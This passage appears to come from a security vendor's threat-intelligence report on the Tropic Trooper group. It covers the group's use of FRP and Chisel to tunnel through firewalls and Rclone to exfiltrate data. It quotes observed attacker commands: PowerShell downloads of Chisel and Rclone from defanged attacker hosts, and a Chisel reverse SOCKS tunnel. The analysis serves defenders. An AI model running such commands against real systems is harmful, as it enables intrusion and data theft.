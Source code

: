 




![Tool to wipe event logs](https://marvel-b1-cdn.bc0a.com/f00000000017219/www.trendmicro.com/content/dam/trendmicro/global/en/research/21/l/collecting-in-the-dark-tropic-trooper-targets-transportation-and-government-organizations/Earth%20trooper%20image.png)




**Intranet Penetration**


After successfully exploiting the vulnerable system, threat actors also drop following tools: FRP and Chisel. FRP is a fast reverse proxy used to expose a local server behind an NAT or a firewall to the internet. It can read predefined configurations and make the host in the intranet available to users from the internet.






![Figure 12. Configuration for FRP fast reverse proxy ](https://marvel-b1-cdn.bc0a.com/f00000000017219/www.trendmicro.com/content/dam/trendmicro/global/en/research/21/l/collecting-in-the-dark-tropic-trooper-targets-transportation-and-government-organizations/Earth%20Trooper%20Figure%2012.png)
Figure 12. Configuration for FRP fast reverse proxy 




Chisel is a fast TCP/UDP tunnel, which is mainly used for passing through firewalls. It provides the capability to transport data over HTTP (secured via Secure Shell, aka SSH) and allows threat actors to pass through a firewall and get access to the machine behind the firewall.


This is used to download reverse proxy Chisel via PowerShell:


c:\windows\system32\windowspowershell\v1.0\powershell.exe -command "$(new-object System.Net.WebClient).DownloadFile('https[:]//webadmin[.]mirrorstorage[.]org/ch.exe', 'ch.exe')"


This is used to build a connection between inter/intranet via Chisel:  




C:\WINDOWS\system32\ch.exe client https[:]//webadmin[.]mirrorstorage[.]org:443 r:127.0.0.1:47586:socks


Exfiltration


In the previous phase, we observed that the actors use several tools to get the whole picture of the network infrastructure and bypass the firewall. Afterward, we observed a PowerShell command used to download an effective tool, Rclone, which is used for exfiltration. It also provides an easy and effective way of copying data to several cloud storage providers.


C:\WINDOWS\System32\WindowsPowerShell\v1.0\powershell.exe -command "$(new-object System.Net.WebClient).DownloadFile('http://195[.]123[.]221[.]7:8080/rclone.exe', 'r.exe')"  




Based on previous experience, Rclone has frequently been used in ransomware attacks to exfiltrate stolen data. However, it seems that currently, it is not only used in ransomware attacks but also in APT attacks.
